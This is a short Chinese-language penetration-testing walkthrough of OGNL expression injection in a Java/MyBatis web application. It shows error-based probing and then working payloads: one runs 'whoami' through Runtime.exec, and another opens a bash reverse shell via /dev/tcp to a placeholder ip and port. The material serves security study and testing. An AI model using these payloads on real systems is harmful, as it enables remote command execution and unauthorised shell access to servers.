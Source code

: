 # OGNL注入实战

---

### 报！前方有洞！

发现一个参数存在表达式注入，一看就是java环境，那么可能是FreeMarker的SSTI，也可能是EL表达式/OGNL表达式。为什么报错呢？因为输入的参数与数据库指定的字段类型不符，于是产生了报错。

![image-20211009175649291](OGNL注入实战.assets/image-20211009175649291.png)

开始使用各种阴间的畸形表达式尝试报错：

![image-20211009180353443](OGNL注入实战.assets/image-20211009180353443.png)

接着尝试发现了是Mybatis中使用的OGNL表达式产生了错误，不支持`a(111)`这种表达。

![image-20211009180535298](OGNL注入实战.assets/image-20211009180535298.png)

对Mybatis和开发感兴趣的同学可以参考下文

`https://blog.csdn.net/isea533/article/details/50061705`

---

### 再探再报！

此时已知是ognl表达式，可以进一步测试。测试是否可以执行代码，把int转换成String，看来效果不明显。

![image-20211009180041319](OGNL注入实战.assets/image-20211009180041319.png)

getInputStream()方法是继承Stream接口的实例才能有的方法，其他的实例是无法使用的，比如Int对象和String对象都没有这个方法，所以会报错`不是指定的对象object`。根据这个特性的报错可以进行判断，此时是Int。

![image-20211009181720285](OGNL注入实战.assets/image-20211009181720285.png)

而toString()还是可以正常执行的，此时报错为String。

![image-20211009181609142](OGNL注入实战.assets/image-20211009181609142.png)

---

### 不讲武德！

经过反复测试，确认构造方法可以执行，对象可以调用方法等等。

OGNL表达式分析推荐阅读：`https://www.mi1k7ea.com/2020/03/16/OGNL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#0x05-OGNL%E6%94%BB%E9%98%B2%E5%8F%B2`

学完之后发现按照最老版本的Structs2的OGNL表达式注入攻击手法，只需要给之前的Payload添加亿点点细节，就可以Shell了：

`${@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())}`

![image-20211009182143615](OGNL注入实战.assets/image-20211009182143615.png)



尝试反弹NC（实战发现好像不出网，哈哈哈），反弹方法推荐阅读：`https://www.jianshu.com/p/ae3922db1f70`

给出如下payload仅供各位参考

`${@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('bash$IFS$9-i>&/dev/tcp/ip/port<&1').getInputStream())}`

---

